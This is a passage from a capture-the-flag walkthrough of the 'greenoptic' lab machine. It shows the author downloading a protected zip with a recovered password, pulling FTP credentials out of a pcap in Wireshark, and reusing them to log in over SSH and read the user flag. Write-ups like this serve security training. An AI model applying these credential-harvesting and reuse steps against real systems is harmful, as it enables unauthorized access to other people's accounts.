 Now I downloaded the zip file and used the password <b>HelloSunshine123</b> to extract the zip file. After extracting, we get a <b>dpi.pcap</b> file.

```r
root@kali:~# curl http://recoveryplan.greenoptic.vm/dpi.zip -u staff --output dpi.zip4

Enter host password for user 'staff':
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 72324  100 72324    0     0   9.8M      0 --:--:-- --:--:-- --:--:--  9.8M

root@kali:~# unzip dpi.zip
Archive:  dpi.zip
[dpi.zip] dpi.pcap password: 
  inflating: dpi.pcap
```
I opened the file in <b>Wireshark</b> and started analyzing the traffic. While analyzing, I found the FTP credentials for user <b>Alex.</b>

<center><br>
<img src="/assets/img/uploads/greenoptic/ftp-passwd.png">
</center>

Generally FTP password is same as the password of the user, which means we can login as user <b>Alex</b> via SSH using the username <b>alex</b> and password <b>FwejAASD1</b> and read the flag for the user.

```r
root@kali:~# ssh alex@greenoptic.vm
alex@greenoptic.vms password: 

[alex@websrv01 ~]$ cat user.txt 
Well done. Now to try and get root access.

Think outside of the box!
```
